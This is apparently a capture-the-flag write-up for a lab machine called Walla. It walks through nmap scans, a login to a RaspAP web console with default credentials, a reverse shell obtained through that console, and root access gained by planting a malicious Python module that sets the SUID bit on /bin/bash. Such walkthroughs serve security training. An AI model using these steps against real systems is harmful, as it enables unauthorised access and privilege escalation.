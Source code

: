 # Walla

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.97
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:22 +08
Nmap scan report for 192.168.197.97
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
23/tcp    open  telnet
25/tcp    open  smtp
53/tcp    open  domain
422/tcp   open  ariel3
8091/tcp  open  jamlink
42042/tcp open  unknown
```

Telnet is enabled, which is always great. Ran a detailed `nmap` scan too:

```
$ sudo nmap -p 22,23,25,53,422,8091,42042 -sC -sV -O --min-rate 3000 192.168.197.97
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 22:24 +08
Nmap scan report for 192.168.197.97
Host is up (0.17s latency).

PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
23/tcp    open  telnet     Linux telnetd
25/tcp    open  smtp       Postfix smtpd
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=walla
| Subject Alternative Name: DNS:walla
| Not valid before: 2020-09-17T18:26:36
|_Not valid after:  2030-09-15T18:26:36
|_smtp-commands: walla, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp    open  tcpwrapped
422/tcp   open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
8091/tcp  open  http       lighttpd 1.4.53
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: lighttpd/1.4.53
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=RaspAP
42042/tcp open  ssh        OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 02715dc8b943ba6ac8ed15c56cb2f5f9 (RSA)
|   256 f3e510d416a99e034738baac18245328 (ECDSA)
|_  256 024f99ec856d794388b2b57cf091fe74 (ED25519)
```

### Weak Creds --> Web Console

I took a look at port 8081 first, and found that it had a HTTP login:

<figure><img src="../../../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

We can login with `admin:secret` and view the dashboard:

<figure><img src="../../../.gitbook/assets/image (98).png" alt=""><figcaption></figcaption></figure>

This is running RaspAP, which is a wireless router software. We can find the version by heading to 'About RaspAP':

<figure><img src="../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

There are RCE exploits for this:

```
$ searchsploit raspap       
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
RaspAP 2.6.6 - Remote Code Execution (RCE) (Authenticated) | php/webapps/50224.py
----------------------------------------------------------- ---------------------------------
```

However, we don't actually need any exploits because within the 'System' tab, there's a Console present:

<figure><img src="../../../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

A reverse shell is trivial:

<figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Grab the user flag from the home directory of `walter`.

## Privilege Escalation

### Sudo Privileges --> Module RCE

I ran a `linpeas.sh` scan to enumerate for me. Here's the interesting output:

```
User www-data may run the following commands on walla:
    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
    
[+] Permissions in init, init.d, systemd, and rc.d
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#init-init-d-systemd-and-rc-d 
You have write privileges over /lib/systemd/system/raspapd.service
```

The `wifi_reset.py` file looks the easiest to exploit:

```
www-data@walla:/home/walter$ cat wifi_reset.py 
#!/usr/bin/python

import sys

try:
        import wificontroller
except Exception:
        print "[!] ERROR: Unable to load wificontroller module."
        sys.exit()

wificontroller.stop("wlan0", "1")
wificontroller.reset("wlan0", "1")
wificotroller.start("wlan0", "1")
```

This is pretty easy to exploit. We can create a script `wificontroller.py` and place it within the `/home/walter` directory. Here's the contents of it:

```python
import os
os.system("chmod u+s /bin/bash")
```

Then, we can attempt to run the `wifi_reset.py` script and easily get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>
